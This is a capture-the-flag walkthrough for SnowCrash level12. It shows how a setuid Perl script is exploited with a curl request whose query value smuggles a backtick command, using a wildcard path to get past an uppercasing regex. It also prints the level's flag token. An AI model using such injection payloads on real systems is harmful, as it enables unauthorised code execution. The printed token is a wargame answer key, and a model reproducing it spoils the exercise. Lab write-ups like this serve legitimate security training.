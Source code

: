 # level12

Using `ls`, we discover a perl script.

```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

We find another RCE by looking into the script. However, we cannot get the ouput of the script and a regex is uppercasing our payloads.

Let's write our payload in a file.

```bash
level12@SnowCrash:~$ echo "getflag > /tmp/flag" > /tmp/PAYLOAD
level12@SnowCrash:~$ chmod 777 /tmp/PAYLOAD

```

Now, lets exploit the RCE, we can use a willcarded directory as our payload will be uppercased.

```bash
level12@SnowCrash:~$ curl localhost:4646?x='`/*/PAYLOAD`'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

Let's head to level13.

```bash
level12@SnowCrash:~$ su level13
Password: g1qKMiRpXf53AWhDaU7FEkczr
level13@SnowCrash:~$ 
```
